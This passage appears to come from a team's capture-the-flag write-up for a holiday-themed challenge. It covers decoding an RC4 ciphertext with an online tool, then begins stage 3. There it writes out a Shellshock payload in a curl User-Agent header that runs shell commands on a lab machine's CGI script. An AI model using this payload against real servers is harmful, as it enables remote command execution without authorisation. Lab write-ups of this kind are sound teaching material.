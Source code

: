 Pretty useless present to be honest. We tried a lot more but nothing took us further so
we gave up and went back to the scatch board with the cipher.

We google (read ddg-ed) for all possible combinations of the hint and text for the hint.
In the end we tried to google just for some symmetric ciphers and found http://www.crypto-it.net/eng/symmetric/index.html
This page lists a few stream ciphers at the start. The first one is OTP but OTP required
key of same length as the text which we definitely don't have. The only key that we
have and can try to use to decode the text is our code we got before the start of the bonus
assignment. Second mentioned cipher is RC4, this is better as it does't required the
key to have the same length as the text. We googled (again, ddged) for RC4 decoder
and found following page that provides online tool to decode RC4 cipher: https://www.dcode.fr/rc4-cipher
We submitted our encoded text with our key and got following decoded string:

```
Hello there! This is the end of stage 2!There are many Elves on the shelf, but Comet is special. Instructions for the next stage are in home directory of this elf!
```

![alt text](stage2.png "Stage 2 done!")

Happy that we succesffully solved stage 2 we decided to hop onto stage 3. right away.

## Stage 3

From the hint we assumed that we are looking for user named Comet. Just to be sure,
we tried again the exploit from previous stage to see if there's anything belonging
to this user:

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -name *Comet*;'" 192.168.1.127:8080/cgi-bin/stats
```
